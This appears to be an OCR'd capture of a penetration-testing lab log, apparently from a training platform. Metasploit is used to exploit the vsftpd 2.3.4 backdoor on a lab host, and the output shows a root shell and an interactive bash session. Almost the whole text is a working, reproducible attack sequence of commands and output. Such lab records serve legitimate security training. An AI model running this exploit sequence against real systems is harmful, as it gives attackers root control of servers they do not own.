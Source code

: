 ```
------------------------------------------------------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
```

```
root@attackdefense:~# service postgresql start && msfconsole -q
[ ok ] Starting PostgreSQL 11 database server: main.
msf5 > search vsftpd

Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   1  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution


msf5 > setg RHOSTS 192.234.154.3
RHOSTS => 192.234.154.3
msf5 > use exploit/unix/ftp/vsftpd_234_backdoor
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > show options

Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  192.234.154.3    yes       The target address range or CIDR identifier
   RPORT   21               yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf5 exploit(unix/ftp/vsftpd_234_backdoor) > exploit

[*] 192.234.154.3:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 192.234.154.3:21 - USER: 331 Please specify the password.
[+] 192.234.154.3:21 - Backdoor service has been spawned, handling...
[+] 192.234.154.3:21 - UID: uid=0(root) gid=0(root) groups=0(root)
[*] Found shell.
[*] Command shell session 1 opened (192.234.154.2:46163 -> 192.234.154.3:6200) at 2023-06-10 02:48:14 +0000

whoami
root
/bin/bash -i
bash: cannot set terminal process group (10): Inappropriate ioctl for device
bash: no job control in this shell
root@victim-1:~/vsftpd-2.3.4# 
```
